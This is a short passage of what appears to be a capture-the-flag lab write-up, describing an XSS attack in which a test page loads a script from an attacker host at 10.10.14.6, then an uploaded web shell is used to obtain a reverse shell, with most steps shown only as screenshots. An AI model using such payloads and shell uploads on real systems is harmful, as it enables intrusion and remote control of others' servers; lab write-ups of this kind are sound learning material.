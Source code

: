 ## Payload (test.html)

The web page in full linking to the Javascript payload.

```
<script src="http://10.10.14.6/xss.js"></script>
```

## Payload Response

The below screenshot shows the target visting the web page and also loading the XSS payload.

![5b8dd6a23681bb3161fd5f3ccc6b6102.png](/assets/img/5b8dd6a23681bb3161fd5f3ccc6b6102.png)

# Uploaded Shell

The exploit seems to have worked correctly. Not getting a 404 when visiting the expected location of the shell. The error message can be ignored.

![5f4e7e247db03bd01cbb659774aed0ca.png](/assets/img/5f4e7e247db03bd01cbb659774aed0ca.png)

Passing the IP/Port via the paramaters as below to obtain a reverse shell.

![7b785b09c0bee5f8a76eefb354d77cc4.png](/assets/img/7b785b09c0bee5f8a76eefb354d77cc4.png)
